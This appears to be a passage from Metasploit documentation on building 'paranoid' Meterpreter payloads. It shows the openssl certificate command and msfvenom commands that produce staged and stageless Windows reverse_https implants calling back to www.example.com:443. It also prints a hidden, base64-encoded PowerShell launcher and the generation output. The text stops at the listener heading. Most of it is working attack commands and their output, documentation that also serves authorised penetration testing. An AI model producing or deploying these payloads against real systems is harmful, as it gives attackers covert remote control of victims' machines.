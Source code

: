 In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with SSL verification. For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat 
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A stageless version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener
